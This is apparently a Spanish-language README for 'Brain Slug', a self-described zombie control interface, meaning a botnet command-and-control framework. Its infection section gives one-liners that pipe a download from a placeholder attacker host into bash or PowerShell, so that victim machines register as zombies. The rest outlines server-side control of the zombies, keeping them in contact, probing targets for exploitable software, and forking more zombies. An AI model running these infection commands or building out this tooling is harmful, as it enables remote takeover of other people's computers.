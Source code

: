 .. image:: https://gitlab.com/robertomartinezp/brain-slug/raw/master/assets/images/brainslug.svg
  :align: center

Universal Zombie Control Interface


Dev Install
-----------

.. code-block:: bash

    pipenv install


Concepto
--------

Brain Slug consta de varias partes más pequeñas:

* Un código de infección de la máquina que hace un curl | interpreteX
* Una sesión de servidor con la que se puede controla el flujo sin que el
  cliente tenga ningún tipo de lógica


Infección
~~~~~~~~~

Esta se lleva a cabo a través de un curl:

.. code-block:: bash

    curl "http://elmal:666/register" | bash

Incluso en windows 10:

.. code-block:: powershell

    curl "http://elmal:666/register" | powershell.exe


Servidor
~~~~~~~~

En el servidor se gestiona para cada cliente su estado en la ejecución.
De forma que cuando un cliente pregunte por la siguiente operación a
ejecutar el servidor se lo da de forma correcta.

A parte de ejecutar operaciones el servidor siempre debe enviar la
siguiente instrucción para que el agente pueda funcionar.

Las operaciones pueden enviar como respuesta a las ejecuciones el
resultado de la evaluación de la operación al servidor para que se
guarden en el servidor. O pueden enviar otra orden para que se guarden
en la memoría del cliente. De esta forma el estado esta compartido entre
ambos sistemas pero el control de flujo esta completamente del lado del
servidor.

Todo el código ejecutado desde el servidor debe estar traspilado al
interprete del cliente, en una primera versión se hará un recetario con
plantillas como validar la prueba de concepto.


Ideas secundarias
-----------------

Se puede tener una app de parking con los clientes zombies para los que
no se tenga todavía trabajo de forma que ocupen pocos recursos y nos
aseguremos que no se pierde el contacto con los mismos.

Se pueden tener diferentes flujos y applicaciones de forma que un zombie
pueda ejecutar diferentes "caminos" de ejecución dependiendo de su
naturaleza. Por ejemplo, una applicacione que detecte si existe un
software en la máquina objetivo y otra aplicación especializada en su
explotación.

Se pueden tener meta aplicaciones que orquesten multi tareas en un
zombie o multi zombie. Para esto se necesita abrir un fork en la máquina
remota que instancie un nuevo zombie.


PoC 1
-----

La poc consiste en los siguientes aplicaciones y todo lo necesario para
implementarlas:

* Lista el directorio: Ejecuta un os.listdir('.') y devuelve el
  resultado en un zombie.
